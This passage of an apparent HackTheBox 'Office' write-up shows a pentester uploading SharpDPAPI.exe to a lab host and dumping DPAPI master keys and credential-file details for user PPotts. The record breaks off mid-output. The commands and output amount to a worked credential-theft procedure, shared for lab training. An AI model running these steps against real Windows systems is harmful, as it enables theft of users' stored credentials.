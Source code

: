 ![](/assets/images/HTB-Writeup-Office/Pasted image 20240619175817.png)

## GPO Abuse and **root.txt**
- After extensive enumeration, the pentester executed `winpeasx64.exe` to thoroughly enumerate for any details that might have been overlooked. In doing so, they discovered the existence of `DPAPI Credentials file` and `DPAPI Master Keys`!!

> Comments: It's worth mentioning that the latest version of the tool [`SharpDPAPI`](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/SharpDPAPI.exe) is capable of extracting credentials protected by DPAPI.
 {: .prompt-tip }
- Upload `SharpDPAPI.exe`
```bash
upload SharpDPAPI.exe c:\\windows\\tasks
```

![](/assets/images/HTB-Writeup-Office/Pasted image 20240619201246.png)

- Execute `SharpDPAPI.exe`

```shell
c:\windows\tasks\SharpDPAPI.exe credentials /rpc

  __                 _   _       _ ___ 
 (_  |_   _. ._ ._  | \ |_) /\  |_) |  
 __) | | (_| |  |_) |_/ |  /--\ |  _|_ 
                |                      
  v1.12.0                               


[*] Action: User DPAPI Credential Triage

[*] Will ask a domain controller to decrypt masterkeys for us

[*] Found MasterKey : C:\Users\PPotts\AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107\10811601-0fa9-43c2-97e5-9bef8471fc7d
[*] Found MasterKey : C:\Users\PPotts\AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb
[*] Found MasterKey : C:\Users\PPotts\AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107\fb2eb8a9-12f7-4f07-83ee-d2cd6aae71c0

[*] Preferred master keys:

C:\Users\PPotts\AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107:fb2eb8a9-12f7-4f07-83ee-d2cd6aae71c0

[*] User master key cache:

{10811601-0fa9-43c2-97e5-9bef8471fc7d}:FBAB11CACDD8407E8DB9604F0F8C92178BEE6FD3
{191d3f9d-7959-4b4d-a520-a444853c47eb}:85285EB368BEFB1670633B05CE58CA4D75C73C77
{fb2eb8a9-12f7-4f07-83ee-d2cd6aae71c0}:33DB2B821336CD6E93872AD397CB6960F1E9EEBA


[*] Triaging Credentials for current user


Folder       : C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\

  CredFile           : 18A1927A997A794B65E9849883AC3F3E

    guidMasterKey    : {191d3f9d-7959-4b4d-a520-a444853c47eb}
    size             : 358
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
```